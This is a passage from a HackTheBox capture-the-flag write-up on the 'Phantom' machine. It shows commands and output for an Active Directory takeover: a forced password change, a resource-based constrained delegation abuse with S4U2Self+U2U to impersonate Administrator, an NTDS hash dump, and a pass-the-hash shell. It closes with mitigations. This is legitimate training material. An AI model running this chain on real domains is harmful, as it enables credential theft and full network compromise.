The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (shown in BloodHound as `AddAllowedToAct`) is the core of Resource-Based Constrained Delegation. This attribute specifies which accounts are allowed to delegate authentication to the target service account (`DC$` in our case).

When we configured RBCD, we added `wsilva` to this attribute on `DC$`. This means:
- `wsilva` can now request service tickets on behalf of other users for services running as `DC$`
- The delegation is **resource-based**, meaning it's configured on the target (`DC$`), not the delegating account (`wsilva`)
- This allows us to use the S4U2Proxy extension to impersonate any user when requesting tickets for `DC$`



### Obtaining Administrator Ticket

To use the S4U2Self+U2U technique, we need to:

1. **Change password to a known value** (for TGT acquisition)
2. **Obtain a TGT** for `wsilva`
3. **Extract the session key** from the TGT
4. **Change password to match the session key hash**
5. **Request a service ticket** using the TGT with `-u2u` flag

Let's start:

```bash
elliot@exegol:~$ netexec smb dc.phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc -M change-password -o USER=wsilva NEWPASS=Elliot123!
[*] Initializing SMB protocol database
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
CHANGE-P... 10.129.234.63   445    DC               [+] Successfully changed password for wsilva
```

Now let's verify RBCD is still configured and obtain a TGT:

```bash
elliot@exegol:~$ rbcd.py -delegate-to 'DC$' -delegate-from wsilva -action write phantom/wsilva:'Elliot123!' -dc-ip 10.129.234.63
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
[*] wsilva can already impersonate users on DC$ via S4U2Proxy
[*] Not modifying the delegation rights.
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)

elliot@exegol:~$ getTGT.py phantom.vl/wsilva:'Elliot123!'  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in wsilva.ccache
```

### Understanding S4U2Self+U2U

The **S4U2Self+U2U (User-to-User)** technique is crucial for this attack:

1. **Obtain TGT**: Get a TGT for the controlled user account (`wsilva`)
2. **Extract Session Key**: The TGT contains a session key encrypted with the user's password hash
3. **Change Password to Session Key Hash**: Modify the user's password to match the TGT session key hash
4. **Use U2U Extension**: Request a service ticket using the TGT with the `-u2u` flag, which allows using the TGT's session key directly

**Why This Works:**

- The U2U extension allows a service to use a TGT's session key instead of the user's password
- By setting the user's password hash to the TGT session key, we can use the TGT with `-k` (keytab) mode
- This bypasses the need for the actual password during S4U2Proxy

### Changing Password with Ticket Hash

To use the S4U2Self+U2U technique, we need to change `wsilva`'s password to match the TGT session key hash. First, let's analyze the ticket:

```bash
elliot@exegol:~$ describeTicket.py wsilva.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : c41c8fc9733230e7b05f15eca1190998...
[*] User Name                     : wsilva
[*] User Realm                    : PHANTOM.VL
[*] Service Name                  : krbtgt/PHANTOM.VL
[*] Service Realm                 : PHANTOM.VL
[*] Start Time                    : 10/12/2025 15:14:40 PM
[*] End Time                      : 11/12/2025 01:14:40 AM
[*] RenewTill                     : 11/12/2025 15:14:39 PM
[*] Flags                         : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : xByPyXMyMOewXxXsoRkJmA==
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/PHANTOM.VL
[*]   Service Realm               : PHANTOM.VL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

**Extracted session key:** `c41c8fc9733230e7b05f15eca1190998...` (RC4 HMAC)

Let's change the password with this hash:

```bash
elliot@exegol:~$ changepasswd.py -newhashes :c41c8fc9733230e7b05f15eca1190998... phantom/wsilva:'Elliot123!'@dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom\wsilva
[*] Connecting to DCE/RPC as phantom\wsilva
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

### Obtaining a Service Ticket for Administrator

Once the password is changed to match the ticket hash, let's obtain a service ticket impersonating `Administrator`:

```bash
elliot@exegol:~$ KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```

**Success!** We now have a Kerberos ticket allowing us to impersonate `Administrator` on the domain controller.

**What happened:**
- `-u2u`: Enables User-to-User authentication, allowing the use of the TGT's session key
- `-impersonate Administrator`: Requests a ticket for the Administrator account
- `-spn cifs/DC.phantom.vl`: Specifies the target service (CIFS on the domain controller)
- `-k`: Uses keytab mode (uses the TGT's session key instead of password)
- `-no-pass`: Don't prompt for password (we're using the keytab)

---

## Domain Compromise

### NTDS Dump with Administrator Ticket

Let's use the ticket to dump the NTDS database (all domain hashes):

```bash
elliot@exegol:~$ KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache netexec smb dc.phantom.vl --use-kcache --ntds                     
SMB         dc.phantom.vl   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.phantom.vl   445    DC               [+] phantom.vl\Administrator from ccache (admin)
SMB         dc.phantom.vl   445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.phantom.vl   445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117...:::
SMB         dc.phantom.vl   445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0...:::
SMB         dc.phantom.vl   445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:de0c6c1bf90cdc90ed73c2b765793df6...:::
SMB         dc.phantom.vl   445    DC               phantom.vl\svc_sspr:1103:aad3b435b51404eeaad3b435b51404ee:8ecffccc2f22c1607b8e104296ffbf68...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\rnichols:1112:aad3b435b51404eeaad3b435b51404ee:6e2c9daa1d71941ea201a79fe134008a...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\pharrison:1113:aad3b435b51404eeaad3b435b51404ee:744cc56188561af3c16a8d0cd1e758d1...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\wsilva:1114:aad3b435b51404eeaad3b435b51404ee:c41c8fc9733230e7b05f15eca1190998...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\elynch:1115:aad3b435b51404eeaad3b435b51404ee:753389c36525eaa2182d2366e21cb37e...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\nhamilton:1116:aad3b435b51404eeaad3b435b51404ee:2d3aa57851c7686d3d3df4c2bf3ebbb8...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\lstanley:1117:aad3b435b51404eeaad3b435b51404ee:3945cd9505e0eca3621a4b61506a131a...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\bbarnes:1118:aad3b435b51404eeaad3b435b51404ee:8b86efbee20746efcf97d50081a7ada9...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\cjones:1119:aad3b435b51404eeaad3b435b51404ee:0253df7e458eedfc1b511ae1eadad057...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\agarcia:1120:aad3b435b51404eeaad3b435b51404ee:54199065e48fae91d67176d5d2c3d506...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ppayne:1121:aad3b435b51404eeaad3b435b51404ee:e628d1e4d23696da908acc1add7efbe4...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ibryant:1122:aad3b435b51404eeaad3b435b51404ee:ca996d2266c0e306701b78a06e3c29ab...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ssteward:1123:aad3b435b51404eeaad3b435b51404ee:5839c34d11b418846131f6944be80ca6...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\wstewart:1124:aad3b435b51404eeaad3b435b51404ee:1d2256228378d2093d25f5122981bcde...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\vhoward:1125:aad3b435b51404eeaad3b435b51404ee:fc97143b237f56c06e0d4f4bff1c7a09...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\crose:1126:aad3b435b51404eeaad3b435b51404ee:e9ad6ec6bd0ab88c16169b16114b216f...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\twright:1127:aad3b435b51404eeaad3b435b51404ee:f082f34b171dd47297674c2be83991b7...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\fhanson:1128:aad3b435b51404eeaad3b435b51404ee:3ecba7b39ce4b3fbe05362d6e05d31d0...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\cferguson:1129:aad3b435b51404eeaad3b435b51404ee:74bb37fa58020392821cdb89b5098f2d...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\alucas:1130:aad3b435b51404eeaad3b435b51404ee:53bd6a54d3dd605385e55f3226b0814d...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ebryant:1131:aad3b435b51404eeaad3b435b51404ee:abf123fca11a39c94bd92505f61c12a5...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\vlynch:1132:aad3b435b51404eeaad3b435b51404ee:c6837ff88c25daea76b0f390f7ab0552...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ghall:1133:aad3b435b51404eeaad3b435b51404ee:a1ca032e6023ddeedd9009d4c0a8c836...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ssimpson:1134:aad3b435b51404eeaad3b435b51404ee:1c029611755dfa697b1996f88a8d9c17...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\ccooper:1135:aad3b435b51404eeaad3b435b51404ee:fc35a773ba47633c4c1a807f91e9d496...:::
SMB         dc.phantom.vl   445    DC               PHANTOM.vl\vcunningham:1136:aad3b435b51404eeaad3b435b51404ee:c187274e5ff6a96c44bce6200d6e7944...:::
SMB         dc.phantom.vl   445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:648605bbb93c66d7754580cb850957fc...:::
SMB         dc.phantom.vl   445    DC               [+] Dumped 30 NTDS hashes to /root/.nxc/logs/ntds/DC_dc.phantom.vl_2025-12-10_151744.ntds of which 29 were added to the database
SMB         dc.phantom.vl   445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc.phantom.vl   445    DC               [*] grep -iv disabled /root/.nxc/logs/ntds/DC_dc.phantom.vl_2025-12-10_151744.ntds | cut -d ':' -f1
```

**All domain hashes have been dumped!**

### Accessing root.txt

Let's use the Administrator NTLM hash to connect and retrieve the root flag:

```bash
elliot@exegol:~$ evil-winrm -i 10.129.234.63 -u Administrator -H aa2abd9db4f5984e657f834484512117...
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
ls
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/4/2024   7:22 AM           2308 Microsoft Edge.lnk
-ar---        12/10/2025   1:01 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat "C:/Users/Administrator/Desktop/root.txt"
<flag>
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

**root.txt flag obtained!** ✅

---

## Conclusion

The **Phantom** machine was an excellent introduction to advanced Active Directory exploitation techniques, particularly:

1. **SMB Reconnaissance**: Public share enumeration and discovery of sensitive information
2. **Password Spray**: Using default passwords discovered in documents
3. **Encrypted Container Cracking**: Using Hashcat to crack a VeraCrypt container
4. **RBCD Exploitation**: Advanced technique allowing privilege escalation without creating a machine account
5. **NTDS Dump**: Complete extraction of domain hashes to compromise all accounts

**Key Takeaways:**

- Public SMB shares can contain sensitive information
- Default passwords are still too common in Active Directory environments
- RBCD can be exploited even with `MachineAccountQuota` set to 0 by using SPN-less user accounts
- The S4U2Self+U2U technique allows obtaining service tickets impersonating any user
- Understanding Kerberos delegation mechanisms is crucial for advanced AD exploitation

**RBCD Attack Chain Summary:**

1. **Initial Access**: Obtain credentials through password spray
2. **Lateral Movement**: Use `ForceChangePassword` rights to control additional accounts
3. **RBCD Configuration**: Modify `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target
4. **TGT Acquisition**: Obtain a Kerberos ticket for the controlled account
5. **Password Manipulation**: Change account password to match TGT session key
6. **Service Ticket Request**: Use S4U2Self+U2U to impersonate high-privilege users
7. **Domain Compromise**: Use impersonated tickets to dump NTDS and gain full domain access

**Mitigation Strategies:**

- Set `MachineAccountQuota` to 0 (already done, but bypassed)
- Monitor changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` attributes
- Implement least privilege principles for `ForceChangePassword` rights
- Use Protected Users group for sensitive accounts
- Enable Windows Defender Credential Guard
- Monitor for S4U2Self and S4U2Proxy ticket requests

**Resources:**

- [The Hacker Recipes - RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
- [NetExec Documentation](https://www.netexec.wiki/)
- [Impacket Examples](https://github.com/fortra/impacket/tree/master/examples)
- [James Forshaw - Exploiting RBCD using a normal user](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

---

*Writeup completed on December 10, 2025 - Phantom Machine (HackTheBox)*
